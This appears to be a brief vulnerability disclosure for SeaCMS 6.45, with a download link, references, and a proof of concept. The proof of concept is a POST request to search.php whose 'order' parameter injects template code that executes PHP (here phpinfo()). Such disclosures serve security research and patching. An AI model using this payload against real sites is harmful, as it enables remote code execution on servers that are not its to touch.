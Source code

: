 ##  Affected Version 6.45

 下载地址：

 链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw 

 密码：cd48




## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.htmlß](https://bbs.ichunqiu.com/thread-35085-1-1.htm)

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



